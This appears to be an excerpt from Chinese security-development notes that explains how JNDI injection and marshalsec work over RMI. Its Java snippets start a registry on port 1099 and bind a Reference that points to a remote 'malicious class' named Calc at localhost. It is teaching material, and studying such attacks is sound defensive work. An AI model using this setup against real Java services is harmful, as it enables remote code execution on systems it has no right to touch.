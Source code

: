   ![73d3c7dfa57a1111d950f5cb758941fc](037安全开发.assets/73d3c7dfa57a1111d950f5cb758941fc.png)


### JNDI-Injection & marshalsec 实现原理：
以RMI调用为例，核心流程是通过RMI服务绑定恶意类引用，诱导目标系统加载并执行：

1. **启动RMI注册表**：监听指定端口（通常是1099），用于管理远程对象的注册和查找。
   ```java
   Registry registry = LocateRegistry.createRegistry(1099);
   ```
   这里，`createRegistry(1099)` 方法启动 RMI 注册表，并监听在端口 1099 上。


2. **注册远程对象**：服务器创建`Reference`对象（包含恶意类信息），包装后绑定到RMI注册表。
   ```java
   // Reference参数说明：
   // className：远程加载时使用的类名
   // classFactory：需要实例化的类名（恶意类）
   // classFactoryLocation：恶意类的远程地址（支持file/ftp/http等）
   Reference reference = new Reference("Calc", "Calc", "http://localhost/");
   // 将Reference包装为RMI可识别的对象
   ReferenceWrapper wrapper = new ReferenceWrapper(reference);
   // 绑定到注册表，名称为"calc"
   registry.bind("calc", wrapper);
   ```
